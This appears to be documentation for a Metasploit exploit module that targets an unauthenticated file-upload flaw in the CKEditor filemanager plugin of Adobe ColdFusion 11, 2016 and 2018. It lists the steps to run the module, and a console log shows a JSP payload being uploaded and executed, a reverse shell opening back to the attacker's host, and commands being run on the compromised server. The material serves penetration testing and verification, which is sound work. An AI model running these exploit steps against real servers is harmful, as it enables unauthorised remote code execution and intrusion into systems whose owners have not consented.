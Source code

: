 ## Description

A file upload vulnerability in the CKEditor of Adobe ColdFusion 11 
(Update 14 and earlier), ColdFusion 2016 (Update 6 and earlier), and 
ColdFusion 2018 (July 12 release) allows unauthenticated remote 
attackers to upload and execute JSP files through the filemanager 
plugin. Tested on Adobe ColdFusion 2018 v2018.0.0.310739.

## Vulnerable Application

ColdFusion 11 (Update 14 and earlier),
ColdFusion 2016 (Update 6 and earlier), and 
[ColdFusion 2018 (July 12 release)](https://bintray.com/eaps/coldfusion/cf%3Acoldfusion/2018.0.0)

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/coldfusion_ckeditor_file_upload`
3. `set rhosts <rhost>`
4. `set lhost <lhost>`
5. `exploit`
6. Get a shell

## Scenarios

### Tested on Coldfusion 2018 v2018.0.0.310739

```
msf > use exploit/multi/http/coldfusion_ckeditor_file_upload
msf exploit(multi/http/coldfusion_ckeditor_file_upload) > set rhosts 172.22.222.142
rhosts => 172.22.222.142
msf exploit(multi/http/coldfusion_ckeditor_file_upload) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf exploit(multi/http/coldfusion_ckeditor_file_upload) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Uploading the JSP payload at /cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/uploadedFiles/ASMK.jsp...
[+] Upload succeeded! Executing payload...
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.142:43262) at 2019-01-10 06:30:52 -0600

whoami
cfuser
uname -a
Linux 6bd4238e7ffb 4.15.0-38-generic #41-Ubuntu SMP Wed Oct 10 10:59:38 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 172.22.222.142 - Command shell session 1 closed.
msf exploit(multi/http/coldfusion_ckeditor_file_upload) >
```
